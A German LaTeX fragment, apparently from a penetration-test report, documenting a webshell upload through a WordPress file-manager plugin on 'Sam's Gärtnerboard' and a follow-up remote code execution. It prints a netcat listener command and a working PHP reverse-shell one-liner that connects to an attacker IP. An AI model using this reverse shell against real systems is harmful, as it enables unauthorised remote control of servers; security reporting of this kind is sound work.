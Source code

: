 \section{\makecvssbadge Sam's Gärtnerboard: Upload einer Webshell}

\subsection*{Proof of concept}
Durch den erlangten Admin-Zugriff und das Hinzufügen des WP-Plugins "Advanced File Manager" konnte eine PHP Webshell in das Verzeichnis der Webanwendunge hochgeladen werden. Dadurch ist diese Webshell und der URL \url{http://10.0.68.197/webshell.php} erreichbar. 

\subsection*{Empfehlungen}
Empfehlungen


\section{\makecvssbadge Sam's Gärtnerboard: Reverse Shell und Remote Code Execution (RCE)}

\subsection*{Proof of concept}
Über die hochgeladenen Webshell kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listener auf dem Angreifer-System mit dem Befehl \texttt{nc -lvp 9001} gestartet werden. Mit dem Befehl aus \autoref{listing:sams-gaertnerboard:reverse-shell} kann sich die Shell auf dem Netcat-Listener verbinden. 


\begin{listing}[!ht]
\begin{verbatim}
php -r '\$sock=fsockopen("10.0.32.2",9001);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{verbatim}
\caption{Reverse Shell}
\label{listing:sams-gaertnerboard:reverse-shell}
\end{listing}

